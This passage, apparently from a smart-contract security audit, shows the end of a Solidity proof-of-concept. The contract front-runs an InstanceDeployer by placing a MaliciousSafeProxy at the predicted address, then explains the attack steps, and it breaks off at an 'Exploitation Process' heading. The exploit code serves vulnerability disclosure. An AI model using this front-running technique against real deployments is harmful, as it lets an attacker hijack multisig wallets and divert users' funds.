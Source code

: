 ```solidity
                recoverySpells: new address[](0),
                timelockParams: DeploymentParams({
                    minDelay: 1 days,
                    expirationPeriod: 30 days,
                    pauser: address(0),
                    pauseDuration: 1 days,
                    hotSigners: new address[](0),
                    contractAddresses: new address[](0),
                    selectors: new bytes4[](0),
                    startIndexes: new uint16[](0),
                    endIndexes: new uint16[](0),
                    datas: new bytes[][](0),
                    salt: bytes32(creationSalt)
                })
            })
        );

        // Step 3: Verify that the malicious proxy is set as the safe
        require(
            address(deployer.safe()) == address(maliciousProxy),
            "Attack failed: SafeProxy was not replaced with MaliciousSafeProxy"
        );
    }

    // Helper function to deposit Ether into the MaliciousSafeProxy
    function depositToMaliciousProxy() external payable {
        require(address(maliciousProxy) != address(0), "Malicious proxy not deployed");
        (bool success, ) = address(maliciousProxy).call{value: msg.value}("");
        require(success, "Deposit failed");
    }

    // Function to check the balance of the attacker (this contract)
    function getAttackerBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```

**Explanation:**

- **Deployment:** Sets up the necessary contracts, including deploying the `InstanceDeployer` with references to `SafeProxyFactory`, `Safe`, `Guard`, `TimelockFactory`, and `Multicall3`.
- **simulateFrontRunningAttack Function:**
  - **Step 1:** Deploys a `MaliciousSafeProxy` at the predicted address using the same `creationSalt` as the legitimate deployment.
  - **Step 2:** Attempts to create the system instance, which fails to deploy the `SafeProxy` since the attacker’s proxy already exists, triggering the `catch` block.
  - **Step 3:** Verifies that the `InstanceDeployer` now points to the malicious proxy, confirming the vulnerability.

### **4. Exploitation Process**
